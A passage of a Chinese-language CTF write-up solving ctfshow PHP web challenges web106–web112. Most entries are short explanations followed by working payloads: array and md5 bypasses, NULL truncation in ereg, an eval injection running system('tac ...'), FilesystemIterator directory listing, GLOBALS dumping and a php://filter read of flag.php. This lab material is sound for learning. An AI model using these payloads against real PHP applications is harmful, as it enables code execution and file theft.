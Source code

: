     ?q=flag
    error=q

## web106

数组直接绕

    ?v2[]=1
    v1[]=2

## web107

v1数组的flag的值等于v3的md5值

    ?v3=1
    v1=flag=c4ca4238a0b923820dcc509a6f75849b

## web108

ereg函数存在NULL截断漏洞，用%00截断后后面的不会进行匹配。

    ?c=fx%00778

## web109

preg_match的返回值是匹配到的次数，因此只要里面有字母就可以过preg_match。
所以接下来只需要利用eval()函数就可以直接执行了，没有过滤就随便执行一下好了。

    ?v1=Exception();system('tac fl36dg.txt');&v2=a

## web110

过滤了很多，明显是不能用上题的分号什么来绕过了。
看了wp,php有内置类FilesystemIterator()，可以遍历某个目录下的所有文件，然后用getcwd()方法来得到当前路径。

    v1=FilesystemIterator&v2=getcwd

然后访问fl36dga.txt即可

## web111

注意就是php里面，函数内部不放访问外部的变量。
但是有一个就是GLOBALS这个变量，可以得到所有的全局变量。
所以把GLOBALS赋给ctfshow就可以。

    ?v1=ctfshowfx&v2=GLOBALS

## web112

不能直接是个文件，过滤base64啥的
直接读就好了

    ?file=php://filter/resource=flag.php
